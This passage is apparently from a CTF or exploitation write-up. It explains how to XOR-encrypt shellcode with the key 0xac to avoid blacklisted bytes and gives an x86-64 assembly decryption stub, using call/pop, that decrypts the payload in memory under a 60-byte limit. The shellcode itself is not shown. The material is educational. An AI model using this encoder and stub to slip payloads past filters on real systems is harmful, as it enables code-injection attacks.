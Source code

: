 ![Original shellcode banned bytes](/public/img/shellcode-encryption/ogshellcodecheck.png)

And obviously, this shellcode contains several of the blacklisted bytes, so we need to encrypt it before we can use it.

## XOR Encryption

```python
xored_shellcode = bytes([x ^ 0xac for x in shellcode])
```

Encrypted each byte of the shellcode with the key `0xac`.

!!! note
    Why specically `0xac`? No reason, It just didn't produce any blacklisted bytes.

![Encrypted shellcode banned bytes](/public/img/shellcode-encryption/encshellcodecheck.png)

Tada! No blacklisted bytes in the encrypted shellcode, but it is still gibberish and cannot be executed without the decryption stub.

## The Decryption Stub

We need a small piece of code that runs first to decrypt our payload. This stub will locate the encrypted shellcode in memory and decrypt it, so that it will be valid shellcode when executed.

```asm
call get_rip                  ; call will push rip onto the stack
get_rip:
    pop rsi                   ; popping rip into rsi
    add rsi, 0x14             ; move by length of the stub to point to encrypted shellcode
    mov rcx, 24               ; length of the encrypted shellcode
decrypt:
    xor byte ptr [rsi], 0xac  ; Decrypt each byte
    inc rsi                   ; Move to next byte
    loop decrypt              ; Repeat until rcx = 0
```

Here we use a `call/pop` PIC technique to get the current instruction pointer and adjust it to point to our encrypted shellcode. The `xor` operation decrypts each byte, and we use a loop to process the entire shellcode.

## Final payload

Our final payload structure is:
1. Decryption stub (25 bytes)
2. Encrypted shellcode (24 bytes)

Total payload size: 49 bytes (well within the 60-byte limit)

![](/public/img/shellcode-encryption/finalpayloadcheck.png)

Our stub also seems to be clean from any blacklisted bytes, so we're gaming.
